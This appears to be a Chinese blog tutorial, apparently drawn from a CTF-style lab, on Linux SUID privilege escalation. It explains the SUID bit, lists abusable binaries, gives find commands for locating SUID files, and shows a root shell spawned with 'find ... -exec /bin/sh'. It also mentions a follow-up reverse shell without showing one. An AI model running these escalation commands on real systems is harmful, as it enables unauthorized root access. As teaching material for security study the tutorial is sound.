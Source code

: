```yaml
---
title: Linux的SUID提权
date: 2019-11-15 11:15:40
categories:
- Tools
- Penetration Test
tags:
- Strategy
---
```

## 背景

&emsp;&emsp;SUID是set uid的简称，它出现在文件所属主权限的执行位上面，标志为 s 。当设置了SUID后，UMSK第一位为4。我们知道，我们账户的密码文件存放在/etc/shadow中，而/etc/shadow的权限为 ----------。也就是说：只有root用户可以对该目录进行操作，而其他用户连查看的权限都没有。当普通用户要修改自己的密码的时候，可以使用passwd这个指令。passwd这个指令在/bin/passwd下，当我们执行这个命令后，就可以修改/etc/shadow下的密码了。那么为什么我们可以通过passwd这个指令去修改一个我们没有权限的文件呢？这里就用到了suid，suid的作用是让执行该命令的用户以该命令拥有者即root的权限去执行，意思是当普通用户执行passwd时会拥有root的权限，这样就可以修改/etc/passwd这个文件了。(命令：`chmod u+s  文件名`)

![](/img/suid/suid1.png)

&emsp;&emsp;使用suid需要满足的几个条件:

* SUID只对可执行文件有效

* 调用者对该文件有执行权

* 在执行过程中，调用者会暂时获得该文件的所有者权限

* 该权限只在程序执行的过程中有效

<!-- more -->

## 发现

&emsp;&emsp;已知的可用来提权的linux可行性的文件列表如下：

* nmap

* vim

* find

* bash

* more

* less

* nano

* cp

&emsp;&emsp;以下命令可以发现系统上运行的所有SUID可执行文件。

```bash
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```

## 演示

&emsp;&emsp;假设我们已经获得了某台服务器的shell，但是账户权限比较低。

![](/img/suid/suid2.png)

&emsp;&emsp;使用命令`find / -perm -u=s -type f 2>/dev/null`寻找满足提权条件的可执行文件，本次实验使用find。

![](/img/suid/suid3.png)

&emsp;&emsp;执行命令`find flag4.txt -exec /bin/sh \;`，实现提权。

![](/img/suid/suid4.png)

&emsp;&emsp;可以继续执行反弹shell的命令，最后反弹回来的shell也会是root权限，这里就不做演示了。